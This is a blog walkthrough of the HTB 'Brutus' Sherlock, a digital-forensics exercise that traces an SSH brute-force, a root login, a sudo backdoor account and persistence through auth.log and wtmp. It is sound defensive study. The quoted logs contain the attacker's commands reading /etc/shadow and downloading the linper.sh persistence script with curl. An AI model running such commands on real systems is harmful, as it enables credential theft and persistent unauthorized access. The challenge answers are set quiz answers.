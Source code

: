 ```yaml
---
layout: single
title: "Brutus"
date: 2025-09-25
author_profile: true
comments: true
share: true
categories:
  - HTB-sherlocks
tags: []
header:
  overlay_image: /assets/images/brutus/cover.png
  overlay_filter: 0.3  # optional, darkens the image for readability
  caption: "DC-1 Vulnhub Walkthrough"
excerpt: "Step-by-step walkthrough of the Brutus Sherlock from HTB."
feature_row:
  - image_path: /assets/images/brutus/cover.png
    alt: "Brutus Sherlock Cover"
    title: "Brutus Sherlock Walkthrough"
    excerpt: "A practical guide to solving the Brutus sherlocks."
    url: "#"
    btn_label: "Read More"
    btn_class: "btn--primary"
toc: true
toc_sticky: true
---
```


After unzipping the provided evidence, two key artifacts were available for analysis:

- **`auth.log`** → Linux authentication log
- **`wtmp`** → Binary login record file

Additionally, custom tools were provided to parse the `wtmp` file, as the default utilities may cause issues depending on system architecture.

![](/assets/images/brutus/image.png)

To ensure time consistency, the `TZ=UTC` environment variable was set before analyzing the logs. This prevents timezone mismatches that could lead to incorrect timestamps during the investigation. By utilizing Python tools, I obtained nicely formatted JSON-converted data.

![](/assets/images/brutus/image 1.png)

![](/assets/images/brutus/image 2.png)

Let's examine the auth.log file. It contains log timestamps, source IP addresses, service names with PIDs, messages, and a variety of other information.

```sql
kali:~$ head -50 auth.log                                                                                                   
Mar  6 06:18:01 ip-172-31-35-28 CRON[1119]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)                                 
Mar  6 06:18:01 ip-172-31-35-28 CRON[1118]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)                                 
Mar  6 06:18:01 ip-172-31-35-28 CRON[1117]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)                                 
Mar  6 06:18:01 ip-172-31-35-28 CRON[1118]: pam_unix(cron:session): session closed for user confluence                                                     
Mar  6 06:18:01 ip-172-31-35-28 CRON[1119]: pam_unix(cron:session): session closed for user confluence                                                     
Mar  6 06:18:01 ip-172-31-35-28 CRON[1117]: pam_unix(cron:session): session closed for user confluence                                                     
Mar  6 06:19:01 ip-172-31-35-28 CRON[1366]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)                                 
Mar  6 06:19:01 ip-172-31-35-28 CRON[1367]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)                                 
Mar  6 06:19:01 ip-172-31-35-28 CRON[1366]: pam_unix(cron:session): session closed for user confluence                                                     
Mar  6 06:19:01 ip-172-31-35-28 CRON[1367]: pam_unix(cron:session): session closed for user confluence                                                     
Mar  6 06:19:52 ip-172-31-35-28 sshd[1465]: AuthorizedKeysCommand /usr/share/ec2-instance-connect/eic_run_authorized_keys root SHA256:4vycLsDMzI+hyb9OP3wd1
8zIpyTqJmRq/QIZaLNrg8A failed, status 22                                                                                                                   
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
Mar  6 06:19:54 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user root(uid=0) by (uid=0)
```

Before we delve into a detailed analysis, let's first identify the programs being executed to gain an overview of what we're working with. This can be considered a form of reconnaissance. We can easily extract the list of executed programs using the following command.

```sql
awk '{print $5}' auth.log| sed 's/[\[\:].*//g'|sort|uniq -c|sort -n

1 chfn ==> change real user name and information
1 passwd ==> change user password
1 useradd ==> create a new user or update default new user information
2 systemd ==> systemd system and service manager
2 usermod ==> modify a user account
3 groupadd ==> create a new group
6 sudo ==> execute a command as another user
8 systemd-logind ==> Login manager
104 CRON ==> daemon to execute scheduled commands (Vixie Cron)
257 sshd ==> OpenSSH remote login client
```

User creation, user information changes, password changes, sudo commands, login manager entries, and 257 `sshd` records in this `auth.log` file all indicate something suspicious. Let’s take a closer look at the logs related to `sshd`. Some of the entries do not seem useful to me.

![](/assets/images/brutus/image 3.png)

Lets remove all the lines contains `pam_unix` for more clear view.  We can do it by utilizing the `-v` flag with the grep command. Multiple failed login attempt from same ip address and same time indicates brute-force attack. 

![](/assets/images/brutus/image 4.png)

Lets proceed the analysis now based on the questions.

**`Question` Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?**

`Solution` Lets grab all the Ip address in this file and how many time a IP appeared in this file.

```sql
kali:~$ grep sshd auth.log | grep -v pam_unix | grep -oP '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'| sort | uniq -c
      1 172.31.35.28
      1 203.101.190.9
    170 65.2.161.68
```

The IP addresses 172.31.35.28 and 203.101.190.9 each appear only once in this file, whereas 65.2.161.68 appears 170 times, which is a clear indication of a brute-force attack.

`Ans` 65.2.161.68

**`Question` The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**

`Solution` Since the brute-force attack was successful, there should be an 'Accepted' message. The attacker’s IP was 65.2.161.68. Let’s filter the SSH logs based on this condition.

```sql
kali:~$ grep sshd auth.log | grep -v pam_unix | grep "Accepted" | grep 65.2.161.68
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
```

Based on the timestamp, the account appears to be `root`. `cyberjunkie` logged in about six minutes later.

`Ans` root

**Question: Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**

`Solution`: We already know the attacker IP address & the compromised user account was root.

```sql
kali:~$ cat wtmp.out| grep 65.2.161.68 | grep root
"USER"  "2549"  "pts/1" "ts/1"  "root"  "65.2.161.68"   "0"     "0"     "0"     "2024/03/06 06:32:45"   "387923"        "65.2.161.68"
```

`Ans` 2024-03-06 06:32:45

**`Question` SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**

`Solution`: Login data should be handled by `systemd-logind`. Let’s filter the logs based on this program.

```sql
kali:~$ grep systemd-logind auth.log     
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: Session 34 logged out. Waiting for processes to exit.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: Removed session 34.
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
```

Ans:- 37

**`Question`The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**

`Solution` We can filter logs based on new user creation and higher privileges, and only one user account has come up.

```sql
kali:~$ grep -E "useradd|usermod" auth.log 
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

`Ans` cyberjunkie

**`Question` What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**

`Solution` Review the Persistence → Create Account technique on the MITRE ATT&CK site. The attacker created a local useron the host and granted it high privileges, so the correct classification is Local Account (T1136.001).

![](/assets/images/brutus/image 5.png)

`Ans` T1136.001

**`Question` What time did the attacker's first SSH session end according to auth.log?**

`Solution` Session **34** started and ended at the same second (**06:31:40**), which indicates the attacker’s initial successful brute-force login attempt terminated immediately. In contrast, Session **37** lasted **4 minutes 40 seconds** (06:32:44 → 06:37:24), which is consistent with a manual/interactive login.

```sql
kali:~$ grep systemd-logind auth.log
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: Session 34 logged out. Waiting for processes to exit.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: Removed session 34.
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
```

`Ans` 2024-03-06 06:37:24

**`Question` The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**

`Solution` Auth.log normally does *not* record every command a user runs. However, when a command is executed with `sudo`, it is recorded in `auth.log` because `sudo` performs an authentication step and the system logs that privileged action (including the invoking user, TTY, working directory, target user, and the full command).

```sql
kali:~$ grep sudo auth.log                
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:39 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
```

`Ans` /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh